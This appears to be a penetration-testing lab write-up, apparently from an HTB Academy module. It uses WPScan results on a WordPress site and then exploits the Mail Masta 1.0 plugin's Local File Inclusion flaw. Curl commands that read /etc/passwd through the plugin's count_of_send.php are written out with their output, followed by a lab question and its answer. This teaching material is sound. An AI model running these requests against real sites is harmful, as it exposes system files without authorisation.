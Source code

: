 The report generated by `WPScan` tells us that the website uses an older version of WordPress (5.3.2) and an outdated theme called `Twenty Twenty`. WPScan identified two vulnerable plugins, `Mail Masta 1.0` and `Google Review Slider`. This version of `Mail Masta` plugin is known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). The report output also contains URLs to PoCs, which provide the information on how to exploit these vulnerabilities. 

Let's verify if the LFI can be exploited based on this `exploit-db` [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.
## LFI Using Browser

![](https://i.imgur.com/YF5Fjqf.png)

We cab also validate this vulnerability using `cURL` on the command line.
## LFI Using cURL

```shell-session
trop3n@htb[/htb]$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

> [!question]
> Use the same LFI vulnerability against your target and read the contents of the "/etc/passwd" file. Locate the only non-root user on the system with a login shell.

After spawning the target machine, students need to exploit the LFI vulnerability, using `cURL` and `grep` to filter out the answer; the only non-root user on the system with a login shell is `sally.jones`:

```shell
curl -s http://STMIP:STMPO/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd | grep "bash"
```
